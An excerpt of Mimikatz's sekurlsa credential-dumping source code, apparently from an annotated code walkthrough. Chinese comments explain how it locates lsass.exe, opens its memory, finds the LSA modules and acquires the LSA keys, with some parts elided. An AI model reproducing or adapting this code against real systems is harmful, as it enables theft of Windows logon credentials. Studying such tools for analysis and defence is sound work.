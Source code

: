 ```c++
            // 获取 lsass.exe 进程的 PID
            if(kull_m_process_getProcessIdForName(L"lsass.exe", &pid))
                // 打开 lsass.exe 进程的句柄
                hData = OpenProcess(processRights, FALSE, pid);
            else PRINT_ERROR(L"LSASS process not found (?)\n");
        }

        if(hData && hData != INVALID_HANDLE_VALUE)
        {
            if(kull_m_memory_open(Type, hData, &cLsass.hLsassMem))
            {
                if(Type == KULL_M_MEMORY_TYPE_PROCESS_DMP)
                {
                    // ......
                }
                else
                {
                #if defined(_M_IX86)
                    if(IsWow64Process(GetCurrentProcess(), &isError) && isError)
                        PRINT_ERROR(MIMIKATZ L" " MIMIKATZ_ARCH L" cannot access x64 process\n");
                    else
                #endif
                    {   
                        // 设置 KUHL_M_SEKURLSA_OS_CONTEXT（osContext）结构中的三个值
                        cLsass.osContext.MajorVersion = MIMIKATZ_NT_MAJOR_VERSION;
                        cLsass.osContext.MinorVersion = MIMIKATZ_NT_MINOR_VERSION;
                        cLsass.osContext.BuildNumber  = MIMIKATZ_NT_BUILD_NUMBER;
                    }
                }

                if(!isError)
                {
                    lsassLocalHelper = 
                    #if defined(_M_ARM64)
                        &lsassLocalHelpers[0]
                    #else
                        (cLsass.osContext.MajorVersion < 6) ? &lsassLocalHelpers[0] : &lsassLocalHelpers[1]
                    #endif
                    ;

                    if(NT_SUCCESS(lsassLocalHelper->initLocalLib()))
                    {
                    // ...
                        if(NT_SUCCESS(kull_m_process_getVeryBasicModuleInformations(cLsass.hLsassMem, kuhl_m_sekurlsa_findlibs, NULL)) && kuhl_m_sekurlsa_msv_package.Module.isPresent)
                        {
                            kuhl_m_sekurlsa_dpapi_lsa_package.Module = kuhl_m_sekurlsa_msv_package.Module;
                            if(kuhl_m_sekurlsa_utils_search(&cLsass, &kuhl_m_sekurlsa_msv_package.Module))
                            {
                                status = lsassLocalHelper->AcquireKeys(&cLsass, &lsassPackages[0]->Module.Informations);
                                if(!NT_SUCCESS(status))
                                    PRINT_ERROR(L"Key import\n");
                            }
                            else PRINT_ERROR(L"Logon list\n");
                        }
                        else PRINT_ERROR(L"Modules informations\n");
                    }
                    else PRINT_ERROR(L"Local LSA library failed\n");
                }
```